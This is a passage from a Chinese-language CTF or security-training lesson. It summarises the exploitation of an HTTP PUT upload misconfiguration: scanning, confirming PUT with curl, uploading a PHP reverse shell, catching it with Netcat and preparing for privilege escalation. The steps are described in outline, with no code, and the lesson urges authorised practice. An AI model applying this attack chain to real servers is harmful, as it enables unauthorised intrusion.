

由于篇幅所限，具体的提权操作将在后续课程中详细展开。本课的重点在于利用PUT漏洞获得初始的Shell访问权限。

## 总结与延伸

本节课中我们一起学习了PUT上传漏洞的完整利用流程：

1.  **信息收集**：使用Nmap、Nikto、Dirb等工具发现目标服务和敏感目录（`/test/`）。
2.  **漏洞验证**：使用curl测试HTTP方法，确认`/test/`目录支持PUT方法。
3.  **漏洞利用**：准备PHP反弹Shell，利用PUT请求上传至靶机，并通过Netcat监听获得反向连接。
4.  **后期交互**：优化Shell环境，并检查当前用户权限，为后续提权做准备。

这个案例清晰地展示了从外部探测到获取服务器Shell的完整攻击链。在实战CTF比赛或安全评估中，发现并利用此类配置漏洞是常见的得分点。请务必在授权环境下进行练习，巩固所学知识。